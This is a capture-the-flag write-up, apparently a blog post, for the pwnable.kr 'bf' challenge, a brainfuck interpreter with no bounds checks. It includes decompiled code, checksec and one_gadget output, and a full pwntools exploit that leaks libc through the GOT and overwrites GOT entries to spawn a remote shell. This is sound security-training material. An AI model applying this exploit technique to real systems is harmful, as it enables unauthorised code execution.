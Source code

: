 ```yaml
---
layout: post
title: pwnable.kr - bf writeup
---
```

> **brain fuck - 150 pt**
> 
> I made a simple brain-fuck language emulation program written in C. 
> The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
> Find a bug and exploit it to get a shell. 
>
> 
> Download : http://pwnable.kr/bin/bf
> 
> Download : http://pwnable.kr/bin/bf_libc.so
>
> 
> Running at : nc pwnable.kr 9001

First, download the binary and decompile it (I used Ghidra for this). We can see that it's a simple implementation of a brainfuck interpreter. However, there are no bounds checks, so we can read and write to basically wherever we want as long as the code for it isn't too long (as the `[]` instructions aren't available in this version).
```c

undefined4 main(void)

{
  size_t sVar1;
  int in_GS_OFFSET;
  uint local_418;
  char local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  p = tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(local_414,0,0x400);
  fgets(local_414,0x400,stdin);
  local_418 = 0;
  while( true ) {
    sVar1 = strlen(local_414);
    if (sVar1 <= local_418) break;
    do_brainfuck((int)local_414[local_418]);
    local_418 = local_418 + 1;
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
```c

void do_brainfuck(undefined param_1)

{
  char *pcVar1;
  int iVar2;
  
  pcVar1 = p;
  switch(param_1) {
  case 0x2b:
    *p = *p + 1;
    break;
  case 0x2c:
    iVar2 = getchar();
    *pcVar1 = (char)iVar2;
    break;
  case 0x2d:
    *p = *p + -1;
    break;
  case 0x2e:
    putchar((int)*p);
    break;
  case 0x3c:
    p = p + -1;
    break;
  case 0x3e:
    p = p + 1;
    break;
  case 0x5b:
    puts("[ and ] not supported.");
  }
  return;
}

```
We can see from `pwn checksec` that we have a writable GOT, and that PIE is off:
```bash
$ pwn checksec ./bf
[*] '/home/user/ctf/ctf-solutions/pwnable-kr/bf/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
So we can write to the GOT. Now we just have to figure out where, and what. I couldn't find a simple way to call `system` directly, so I searched for one-gadgets:
```bash
$ one_gadget bf_libc.so
0x3ac6c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL

0x3ac6e execve("/bin/sh", esp+0x2c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x2c] == NULL

0x3ac72 execve("/bin/sh", esp+0x30, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x30] == NULL

0x3ac79 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x5fbd5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x5fbd6 execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL
```
I ran through the main function in GDB and it turns out that the conditions are just right for the gadget at 0x5fbd5 to get a shell if I replaced the GOT address of puts with the gadget. So then we just have to get `_start` called from somewhere (because otherwise the `esi` constraint won't be satisfied if we directly call `main`). I chose `putchar` because we can choose when we want to call it through the brainfuck code and because `getchar` is already being used for writing data.

Finally, to get a libc leak, we can just simply read off the GOT with some brainfuck code. Do be careful to make sure `putchar` is resolved before trying to leak it, which we can do by printing out some random character before our exploit. Also, we have to use the `,` instruction instead of the `+`/`-` instructions here because we don't know what bytes we need to write before the libc leak.

Full exploit code: 
```python
# leak libc base
# write one-gadget to puts got 
'''
0x5fbd5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL
'''
# jump back to __libc_start_main with another got overwrite 
from pwn import *
context.log_level = 'debug'
e = ELF('./bf')
libc = ELF('./bf_libc.so')
#r = process('./bf_patched')
r = remote('pwnable.kr', 9001)
#r = gdb.debug('./bf_patched', 'b main\nc')
r.recvuntil(b']\n')
r.sendline(b'.'+b'<'*(e.sym['tape']-e.got['putchar'])+b'.>'*4+b'<'*4+b',>'*4+b'<'*(e.got['putchar']+4-e.got['puts'])+b',>'*4+b'.')
# make sure putchar is resolved first 
r.recv(1)
leak = u32(r.recv(4))
print('putchar@got =', hex(leak))
libc.address = leak - libc.sym['putchar']
print('libc.address =', hex(libc.address))
# putchar -> __libc_start_main(main), puts -> one-gadget
r.send(p32(e.sym['_start']))
r.send(p32(libc.address + 0x5fbd5))
r.interactive()
```
And with that, we get a shell.

All of the files for this challenge are available at <https://github.com/programmeruser2/ctf-solutions/tree/main/pwnable-kr/bf>.

